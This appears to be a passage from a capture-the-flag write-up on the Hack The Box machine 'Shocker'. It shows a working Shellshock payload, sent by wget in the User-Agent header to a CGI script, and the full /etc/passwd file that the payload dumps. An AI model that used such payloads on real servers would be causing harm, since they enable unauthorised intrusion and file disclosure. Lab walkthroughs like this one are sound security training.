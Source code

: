Gobuster immediately found `user.sh`. While the scan finishes, we can test it:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/shocker]
└─$ wget -U "() { test;};echo \"Content-type: text/plain\"; echo; echo; /bin/cat /etc/passwd" http://10.10.10.56/cgi-bin/user.sh
--2021-06-14 10:15:38--  http://10.10.10.56/cgi-bin/user.sh
Connecting to 10.10.10.56:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/plain]
Saving to: ‘user.sh’

user.sh                                                [ <=>                                                                                                          ]   1.53K  --.-KB/s    in 0s      

2021-06-14 10:15:39 (131 MB/s) - ‘user.sh’ saved [1568]

┌──(mac㉿kali)-[~/Documents/HTB/shocker]
└─$ cat user.sh 

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
shelly:x:1000:1000:shelly,,,:/home/shelly:/bin/bash
```
